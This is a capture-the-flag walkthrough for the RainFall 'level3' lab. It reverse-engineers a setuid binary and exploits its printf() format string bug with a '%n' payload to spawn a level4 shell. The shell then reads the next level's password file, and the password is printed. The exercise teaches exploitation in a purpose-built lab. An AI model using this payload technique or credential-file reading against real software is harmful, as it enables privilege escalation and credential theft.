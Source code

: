 # Level3

As in level2, we can find an executable waiting for an input, print it and quit after press enter
```
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5366 Mar  6  2016 level3
level3@RainFall:~$ ./level3
bla
bla
level3@RainFall:~$
```
After analyze it with radare2 (please refer to [level1](https://github.com/maxisimo/42-RainFall/blob/main/level1/walkthrough.md) if you want more details on the steps to follow)  
We can see that the `main()` function call a function named `v()`.  
- main() :  
```
[0x080483f0]> s main
[0x0804851a]> pdda
    ; assembly                           | /* r2dec pseudo code output */
                                         | /* level3 @ 0x804851a */
                                         | #include <stdint.h>
                                         |
    ; (fcn) main ()                      | int32_t main (void) {
    0x0804851a push ebp                  |
    0x0804851b mov ebp, esp              |     
    0x0804851d and esp, 0xfffffff0       |
    0x08048520 call 0x80484a4            |     v ();
    0x08048525 leave                     |
    0x08048526 ret                       |
                                         | }
[0x0804851a]>
```
- v() :  
```
[0x0804851a]> s sym.v
[0x080484a4]> pdda
    ; assembly                                   | /* r2dec pseudo code output */
                                                 | /* level3 @ 0x80484a4 */
                                                 | #include <stdint.h>
                                                 |
    ; (fcn) sym.v ()                             | int32_t v (void) {
                                                 |     char * format;
                                                 |     size_t size;
                                                 |     FILE * nitems;
                                                 |     FILE * stream;
    0x080484a4 push ebp                          |
    0x080484a5 mov ebp, esp                      |
    0x080484a7 sub esp, 0x218                    |
    0x080484ad mov eax, dword [0x8049860]        |     eax = stdin;
    0x080484b2 mov dword [esp + 8], eax          |     *((esp + 8)) = eax;
    0x080484b6 mov dword [esp + 4], 0x200        |     *((esp + 4)) = 0x200;
    0x080484be lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x080484c4 mov dword [esp], eax              |
    0x080484c7 call 0x80483a0                    |     fgets (ebp);
    0x080484cc lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x080484d2 mov dword [esp], eax              |
    0x080484d5 call 0x8048390                    |     printf (eax);
    0x080484da mov eax, dword [0x804988c]        |     eax = m;
    0x080484df cmp eax, 0x40                     |
                                                 |     if (eax == 0x40) {
    0x080484e2 jne 0x8048518                     |
    0x080484e4 mov eax, dword [0x8049880]        |         eax = stdout;
    0x080484e9 mov edx, eax                      |         edx = stdout;
    0x080484eb mov eax, 0x8048600                |         eax = "Wait what?!\n";
    0x080484f0 mov dword [esp + 0xc], edx        |         *((esp + 0xc)) = edx;
    0x080484f4 mov dword [esp + 8], 0xc          |         *((esp + 8)) = 0xc;
    0x080484fc mov dword [esp + 4], 1            |         *((esp + 4)) = 1;
    0x08048504 mov dword [esp], eax              |
    0x08048507 call 0x80483b0                    |         fwrite (eax);
    0x0804850c mov dword [esp], 0x804860d        |
    0x08048513 call 0x80483c0                    |         system ("/bin/sh");
                                                 |     }
    0x08048518 leave                             |
    0x08048519 ret                               |     return eax;
                                                 | }
[0x080484a4]>
```
Let focus on the `v()` function.  
We can see a call to `fgets()` function wich is protect against buffer overflow attack.  
```
    0x080484ad mov eax, dword [0x8049860]        |     eax = stdin;
    0x080484b2 mov dword [esp + 8], eax          |     *((esp + 8)) = eax;
    0x080484b6 mov dword [esp + 4], 0x200        |     *((esp + 4)) = 0x200;
    0x080484be lea eax, [ebp - 0x208]            |     eax = ebp - 0x208;
    0x080484c4 mov dword [esp], eax              |
    0x080484c7 call 0x80483a0                    |     fgets (ebp);
```
These lines are equivalent to `fgets(buffer[512], 512, stdin);` in pseudo C.  
But we can also see a call to `printf()` function wich is vulnerable to format string exploit!  
```
    0x080484d5 call 0x8048390                    |     printf (eax);
```
After that the program compares the value of a global variable `m` at "0x804988c" to 64.  
If the comparaison return true then the function will print "Wait what?!\n" and launch a shell via a call to `system()`.  
We need to manipulate `printf()` function into changing the value of the variable at the address `0x804988c`.  
First we need to print the memory until we reach the address of the variable we wish to modify :
```
level3@RainFall:~$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
level3@RainFall:~$
```
Our buffer `aaaa` is at the 4th position (`61616161`). The modifier format `%x` allow us to print adress on the stack, cast on unsigned hexadecimal integer ([man printf](http://manpagesfr.free.fr/man/man3/printf.3.html))  
Now we can replace our buffer `aaaa` by the adress of the variable `m` in little endian.
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit | ./level3
 200 b7fd1ac0 b7ff37d0 804988c
level3@RainFall:~$
```
Good, the only last thing to do is that we don't want to print the memory, we want to change the content of the variable `m`.  
Don't forget that the variable `m` must have 64 bytes so we just have to add 60 bytes to the address passed before.  
The modifier `%n` will write the number of bytes specified before in the choosen address. We can specify the adress with %[number]$n option.  
Finally our final format string attack will look like :
- address of `m`        : 4 bytes
- pad of arbitrary data : 60 bytes
- modifier `%n`
```
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
^C
level3@RainFall:~$ su level4
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
level4@RainFall:~$
```
Level3 passed!
